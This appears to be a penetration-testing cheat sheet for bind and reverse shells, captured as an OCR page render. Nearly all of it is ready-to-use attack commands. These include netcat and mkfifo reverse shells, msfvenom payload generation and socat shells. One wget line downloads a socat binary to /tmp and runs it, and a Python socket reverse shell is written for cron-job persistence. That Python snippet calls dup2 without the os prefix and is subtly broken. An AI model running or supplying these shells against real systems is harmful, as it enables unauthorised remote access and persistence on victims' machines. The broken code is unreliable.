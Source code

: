 ### Bind/Reverse Shells

#### Kali Shells
```
# Several shells located in Kali at
/usr/share/laudanum/
```

#### Bind Shell (don't work behind firewalls)
```
# On Windows machine offer shell
nc -lvp 4444 -e cmd.exe

# On Kali machine connect
nc -nv win.dow.si.p 4444
```
#### Reverse Shell
```
# On Kali Machine listen for connection
nc -lvp 4444

# On target machine
nc -nv att.ac.kin.gip 4444 -e /bin/bash
```
### Improving your Shell
```
# Python one liner
python -c 'import pty; pty.spawn("/bin/bash")'

# Python to make fully interactive
python -c 'import pty; pty.spawn("/bin/sh")'
# Then ctrl-z to background shell and run
stty raw -echo
fg
# It will look ugly but just type the following
reset
# If this shell is the incorrect size for your terminal, type
stty size
# And specify the size
stty -rows 48 -columns 120

# Perl
perl —e 'exec "/bin/sh";'
```
### If using netcat and -e option not available, use this one liner
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
### Improving your Shell with msfvenom one-liners
```
# List the options
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'

# Select and use one
msfvenom -p cmd/unix/reverse_netcat LHOST=10.0.3.4 LPORT=4444 R
```

### Using socat to invoke full interactive shell
```
# On attacking machine, listen with socat
socat file:`tty`,raw,echo=0 tcp-listen:4444

# On victim machine with socat already installed, replace 10.0.3.4 with attacking ip
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

# On victim machine without socat installed
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

```

### Error opening terminal: 
```
# If getting Error opening terminal: xterm-256color.
export TERM=xterm
```
### Python shell suitable for .py file cron jobs
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.7",4444))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```

### Python PTY Shells
`git clone https://github.com/infodox/python-pty-shells.git`
